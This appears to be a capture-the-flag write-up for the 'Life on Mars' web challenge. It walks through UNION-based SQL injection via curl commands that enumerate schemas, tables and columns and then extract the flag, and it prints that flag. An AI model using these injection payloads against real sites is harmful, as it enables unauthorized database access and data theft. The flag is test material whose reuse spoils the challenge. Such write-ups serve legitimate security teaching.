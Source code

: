 # Life on Mars
- This challenge is a basic site that queries a database to display information about the various species of life on Mars.
- We have the `/query` route and can use that to make arbitrary db calls

## SQL injection
- We can use the search= query string to send our injection
### To get the databases:
```bash
$ curl "web.ctf.b01lers.com:1001/query?search=hellas_basin%20UNION%20SELECT%20666,%20table_schema%20FROM%20information_schema.tables;%20--%20-"

["666","information_schema"],["666","alien_code"],["666","aliens"]]
```
### To get the table_names
```
➜ curl "web.ctf.b01lers.com:1001/query?search=hellas_basin%20UNION%20SELECT%20666,table_name%20FROM%20information_schema.tables;--%20-"
[...snip..., ["666","CHARACTER_SETS"],["666","COLLATIONS"],["666","COLLATION_CHARACTER_SET_APPLICABILITY"],["666","COLUMNS"],["666","COLUMN_PRIVILEGES"],["666","ENGINES"],["666","EVENTS"],["666","FILES"],["666","GLOBAL_STATUS"],["666","GLOBAL_VARIABLES"],["666","KEY_COLUMN_USAGE"],["666","OPTIMIZER_TRACE"],["666","PARAMETERS"],["666","PARTITIONS"],["666","PLUGINS"],["666","PROCESSLIST"],["666","PROFILING"],["666","REFERENTIAL_CONSTRAINTS"],["666","ROUTINES"],["666","SCHEMATA"],["666","SCHEMA_PRIVILEGES"],["666","SESSION_STATUS"],["666","SESSION_VARIABLES"],["666","STATISTICS"],["666","TABLES"],["666","TABLESPACES"],["666","TABLE_CONSTRAINTS"],["666","TABLE_PRIVILEGES"],["666","TRIGGERS"],["666","USER_PRIVILEGES"],["666","VIEWS"],["666","INNODB_LOCKS"],["666","INNODB_TRX"],["666","INNODB_SYS_DATAFILES"],["666","INNODB_FT_CONFIG"],["666","INNODB_SYS_VIRTUAL"],["666","INNODB_CMP"],["666","INNODB_FT_BEING_DELETED"],["666","INNODB_CMP_RESET"],["666","INNODB_CMP_PER_INDEX"],["666","INNODB_CMPMEM_RESET"],["666","INNODB_FT_DELETED"],["666","INNODB_BUFFER_PAGE_LRU"],["666","INNODB_LOCK_WAITS"],["666","INNODB_TEMP_TABLE_INFO"],["666","INNODB_SYS_INDEXES"],["666","INNODB_SYS_TABLES"],["666","INNODB_SYS_FIELDS"],["666","INNODB_CMP_PER_INDEX_RESET"],["666","INNODB_BUFFER_PAGE"],["666","INNODB_FT_DEFAULT_STOPWORD"],["666","INNODB_FT_INDEX_TABLE"],["666","INNODB_FT_INDEX_CACHE"],["666","INNODB_SYS_TABLESPACES"],["666","INNODB_METRICS"],["666","INNODB_SYS_FOREIGN_COLS"],["666","INNODB_CMPMEM"],["666","INNODB_BUFFER_POOL_STATS"],["666","INNODB_SYS_COLUMNS"],["666","INNODB_SYS_FOREIGN"],["666","INNODB_SYS_TABLESTATS"],["666","code"],["666","amazonis_planitia"],["666","arabia_terra"],["666","chryse_planitia"],["666","hellas_basin"],["666","hesperia_planum"],["666","noachis_terra"],["666","olympus_mons"],["666","tharsis_rise"],["666","utopia_basin"]]
```
- The 'code' table is not given, so lets see if its part of the `alien_code` database

### To get columns in code table
```bash
$ curl "web.ctf.b01lers.com:1001/query?search=hesperia_planum%20UNION%20SELECT%20666,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name='code';--%20-"
[...snip...,["666","id"],["666","code"]]
```


### To get the flag:
- Trying a valid query to alien\_code.code
```bash
curl "web.ctf.b01lers.com:1001/query?search=utopia_basin%20UNION%20SELECT%20id,%20code%20FROM%20alien_code.code;%20--%20-
[...snip...,["0","pctf{no_intelligent_life_here}"]]

```

# Flag
- pctf{no_intelligent_life_here}
